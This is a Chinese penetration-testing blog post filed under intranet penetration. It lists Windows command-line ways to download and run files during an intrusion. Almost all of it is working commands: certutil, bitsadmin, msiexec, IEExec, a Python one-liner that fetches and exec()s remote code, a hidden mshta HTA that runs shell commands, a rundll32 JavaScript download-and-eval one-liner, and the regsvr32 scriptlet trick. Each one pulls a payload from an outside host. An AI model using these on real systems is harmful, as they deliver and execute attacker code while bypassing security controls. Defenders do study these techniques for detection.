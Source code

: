 ```yaml
---
categories: 内网渗透
date: "2017-11-08T00:00:00Z"
title: Windows下命令行下载文件总结
url: /archivers/2017-11-08/1
---
```


## 0x00 Powershell

win2003、winXP不支持


$client = new-object System.Net.WebClient

$client.DownloadFile('http://payloads.online/file.tar.gz', 'E:\file.tar.gz')


## 0x01 ftp

ftp 192.168.3.2

输入用户名和密码后

lcd E:\file    # 进入E盘下的file目录

cd www # 进入服务器上的www目录

get access.log # 将服务器上的access.log下载到E:\file

可以参考：https://baike.baidu.com/item/ftp/13839

## 0x02 IPC$

copy \\192.168.3.1\c$\test.exe E:\file

可以参考：http://www.163164.com/jiqiao/163164com011.htm

## 0x03 Certutil

可以参考：https://technet.microsoft.com/zh-cn/library/cc773087(WS.10).aspx

应用到: Windows Server 2003, Windows Server 2003 R2, Windows Server 2003 with SP1, Windows Server 2003 with SP2

certutil.exe -urlcache -split -f http://192.168.3.1/test.txt file.txt

## 0x04 bitsadmin

可以参考：https://msdn.microsoft.com/en-us/library/aa362813(v=vs.85).aspx

* 1、`bitsadmin /rawreturn /transfer getfile http://192.168.3.1/test.txt E:\file\test.txt`
* 2、`bitsadmin /rawreturn /transfer getpayload http://192.168.3.1/test.txt E:\file\test.txt`

## 0x05 msiexec

msiexec /q /i http://192.168.3.1/test.txt

## 0x06 IEExec

C:\Windows\Microsoft.NET\Framework\v2.0.50727\> caspol -s off

C:\Windows\Microsoft.NET\Framework\v2.0.50727\> IEExec http://192.168.3.1/test.exe

## 0x07 python

C:\python27\python.exe -c "import urllib2; exec urllib2.urlopen('http://192.168.3.1/test.zip').read();"

## 0x08 mshta

mshta http://192.168.3.1/run.hta

run.hta 内容如下：

```
<HTML> 
<meta http-equiv="Content-Type" content="text/html; charset=utf-8">
<HEAD> 
<script language="VBScript">
Window.ReSizeTo 0, 0
Window.moveTo -2000,-2000
Set objShell = CreateObject("Wscript.Shell")
objShell.Run "cmd.exe /c net user" // 这里填写命令
self.close
</script>
<body>
demo
</body>
</HEAD> 
</HTML>
```


## 0x09 rundll32

```
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();h=new%20ActiveXObject("WinHttp.WinHttpRequest.5.1");h.Open("GET","http://127.0.0.1:8081/connect",false);try{h.Send();b=h.ResponseText;eval(b);}catch(e){new%20ActiveXObject("WScript.Shell").Run("cmd /c taskkill /f /im rundll32.exe",0,true);}%
```

其实还是依赖于WScript.shell这个组件

## 0x10 regsvr32

regsvr32 /u /s /i:http://192.168.3.1/test.data scrobj.dll

test.data内容：
```
<?XML version="1.0"?>
<scriptlet>
<registration
    progid="ShortJSRAT"
    classid="{10001111-0000-0000-0000-0000FEEDACDC}" >
    <!-- Learn from Casey Smith @subTee -->
    <script language="JScript">
        <![CDATA[
            ps  = "cmd.exe /c calc.exe";
            new ActiveXObject("WScript.Shell").Run(ps,0,true);

        ]]>
</script>
</registration>
</scriptlet>
```
 
还可以利用 https://github.com/CroweCybersecurity/ps1encode 生成sct(COM scriptlet - requires a webserver to stage the payload)

regsvr32 /u /s /i:http://192.168.3.1/test.sct scrobj.dll

## 结语

没有总结太多交互式下载文件的，这类的不太适用我们所遇到的场景，如果还有更多方式，后面再填补进来


